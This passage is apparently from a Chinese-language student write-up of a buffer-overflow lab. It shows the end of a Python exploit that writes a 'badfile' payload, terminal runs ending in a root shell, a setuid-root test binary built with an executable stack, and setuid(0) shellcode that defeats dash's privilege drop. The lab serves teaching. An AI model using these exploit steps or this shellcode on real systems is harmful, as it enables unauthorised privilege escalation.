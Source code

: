 ```python
content[offset:offset+L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

成功获取root权限下的shell

```shell
❯ python3 exploit-L4.py
❯ ./stack-L4
Input size: 517
# whoami                                                                       
root
# exit    
```

### Task 7：Defeating dash's Countermeasure

输入命令改回设置

```shell
❯ sudo ln -sf /bin/dash /bin/sh
```

修改call_shellcode.c，将setuid的汇编代码加入到shellcode中，重新编译并运行，可以发现shell具有root权限。

```shell
❯ make setuid
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
sudo chown root a32.out a64.out
[sudo] bronya 的密码： 
sudo chmod 4755 a32.out a64.out
❯ ./a32.out
sh-5.1# whoami
root
sh-5.1# exit
exit
❯ ./a64.out
sh-5.1# whoami
root
sh-5.1# exit
exit
```

setuid（0）汇编语言如下，可见主要操作为将real uid设置为0，即root用户的uid，这样当bash执行文件时会发现real id与拥有者id一致，因此不会限制权限。

```assembly
; Invoke setuid(0): 32-bit
xor ebx, ebx ; ebx = 0: setuid()’s argument
xor eax, eax
mov al, 0xd5 ; setuid()’s system call number
int 0x80
; Invoke setuid(0): 64-bit
xor rdi, rdi ; rdi = 0: setuid()’s argument
xor rax, rax
mov al, 0x69 ; setuid()’s system call number
syscall
```
